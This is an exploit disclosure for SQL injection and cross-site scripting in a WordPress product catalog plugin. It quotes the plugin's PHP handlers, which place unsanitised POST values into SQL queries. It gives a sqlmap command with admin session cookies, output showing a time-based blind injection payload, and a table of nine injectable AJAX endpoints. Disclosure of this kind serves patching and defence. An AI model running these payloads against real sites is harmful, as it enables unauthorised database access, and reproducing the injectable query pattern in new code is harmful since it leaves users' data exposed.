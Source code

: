 
#### Exploit Title: WordPress Plugin Product Catalog  SQL Injection / Cross-Site Scripting

#### Exploit Author: ning1022

#### Plugin URI: http://www.EtoileWebDesign.com/plugins/ultimate-product-catalog/


#### Version:  4.2.11

Vulnerability code

```
ultimate-product-catalogue/Functions/Process_Ajax.php

/* Processes the ajax requests being put out in the admin area and the front-end
*  of the UPCP plugin */

// Updates the order of items in the catalogue after a user has dragged and dropped them
function Catalogue_Save_Order() {
	global $catalogue_items_table_name;
	global $wpdb;

	foreach ($_POST['list-item'] as $Key=>$ID) {

		$Result = $wpdb->query("UPDATE $catalogue_items_table_name SET Position='" . $Key . "' WHERE Catalogue_Item_ID=" . $ID);


	}
		
}
add_action('wp_ajax_catalogue_update_order', 'Catalogue_Save_Order');

function Video_Save_Order(){
	global $item_videos_table_name;
	global $wpdb;
	
	foreach ($_POST['video-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $item_videos_table_name SET Item_Video_Order='" . $Key . "' WHERE Item_Video_ID=" . $ID);
	}
}
add_action('wp_ajax_video_update_order','Video_Save_Order');

function Image_Save_Order(){
	global $item_images_table_name;
	global $wpdb;
	
	foreach ($_POST['list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $item_images_table_name SET Item_Image_Order='" . $Key . "' WHERE Item_Image_ID=" . $ID);
	}
}
add_action('wp_ajax_image_update_order','Image_Save_Order');

function Tag_Group_Save_Order(){
	global $tag_groups_table_name;
	global $wpdb;
	
	foreach ($_POST['list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $tag_groups_table_name SET Tag_Group_Order='" . $Key . "' WHERE Tag_Group_ID=" . $ID);
	}
}
add_action('wp_ajax_tag_group_update_order','Tag_Group_Save_Order');

function Category_Products_Save_Order(){
	global $items_table_name;
	global $wpdb;
	
	foreach ($_POST['category-product-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $items_table_name SET Item_Category_Product_Order='" . $Key . "' WHERE Item_ID=" . $ID);
	}
}
add_action('wp_ajax_category_products_update_order','Category_Products_Save_Order');

function Custom_Fields_Save_Order(){
	global $fields_table_name;
	global $wpdb;
	
	foreach ($_POST['field-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $fields_table_name SET Field_Sidebar_Order='" . $Key . "' WHERE Field_ID=" . $ID);
	}
}
add_action('wp_ajax_custom_fields_update_order','Custom_Fields_Save_Order');

function Catergories_Save_Order(){
	global $categories_table_name;
	global $wpdb;
	
	foreach ($_POST['category-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $categories_table_name SET Category_Sidebar_Order='" . $Key . "' WHERE Category_ID=" . $ID);
	}
}
add_action('wp_ajax_categories_update_order','Catergories_Save_Order');

function SubCatergories_Save_Order(){
	global $subcategories_table_name;
	global $wpdb;
	
	foreach ($_POST['subcategory-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $subcategories_table_name SET SubCategory_Sidebar_Order='" . $Key . "' WHERE SubCategory_ID=" . $ID);
	}
}
add_action('wp_ajax_subcategories_update_order','SubCatergories_Save_Order');

function Tags_Save_Order(){
	global $tags_table_name;
	global $wpdb;

	foreach ($_POST['tag-list-item'] as $Key=>$ID) {
		$Result = $wpdb->query("UPDATE $tags_table_name SET Tag_Sidebar_Order='" . $Key . "' WHERE Tag_ID=" . $ID);
	}
}
add_action('wp_ajax_tags_update_order','Tags_Save_Order');



```

 SQL Injection Poc 
 
 
 ```
 ➜  sqlmap-dev git:(master) ✗ python sqlmap.py -u "http://[wordpress]/wp-admin/admin-ajax.php?action=catalogue_update_order"  --dbms mysql --cookie='wordpress_05538288de4800457244fd53c1bf3a45=admin%7C1501751006%7CxRjGC7bEkHMBUbdmN1dLVquUKMAnUEj3DxUbxEPzpy3%7Cca082d9bf78fa404cd99c9d12ec958cfb075257309902d9e420c4e427c27c326; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_05538288de4800457244fd53c1bf3a45=admin%7C1501751006%7CxRjGC7bEkHMBUbdmN1dLVquUKMAnUEj3DxUbxEPzpy3%7C1dd3c0402028c26fcf0b7ac3dbba69b08ffafe341cde416f1d8b424f0861c6e5; wp-settings-1=editor%3Dtinymce%26posts_list_mode%3Dexcerpt%26libraryContent%3Dupload; wp-settings-time-1=1501578206' --data="list-item[1]=1"
 
 
[17:54:08] [INFO] testing connection to the target URL
[17:54:08] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list-item[1] (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: list-item[1]=1 AND (SELECT * FROM (SELECT(SLEEP(5)))jXfE)
    
    
 
 
 
 ```
 
 
  SQL Injection URL and injection parameter
 
 
|URL |injection parameter|
|:----|-----   |
|wp-admin/admin-ajax.php?action=catalogue\_update\_order |$_POST['list-item'] |
|/wp-admin/admin-ajax.php?action=video\_update\_order|$_POST['video-item']|
|/wp-admin/admin-ajax.php?action=image\_update\_order|$_POST['list-item']|
|/wp-admin/admin-ajax.php?action=tag\_group\_update\_order|$\_POST['list_item']|
|/wp-admin/admin-ajax.php?action=category\_products\_update\_order|$_POST['category-product-item']|
|/wp-admin/admin-ajax.php?action=custom\_fields\_update\_order|$_POST['field-item']|
|/wp-admin/admin-ajax.php?action=categories\_update\_order|$_POST['category-item']|
|/wp-admin/admin-ajax.php?action=subcategories\_update\_order|$_POST['subcategory-item']|
|/wp-admin/admin-ajax.php?action=tags\_update\_order|$_POST['tag-list-item']|



xss poc:





![](./images/0801_1.png)


![](./images/0801_2.png)











 
 
 
 



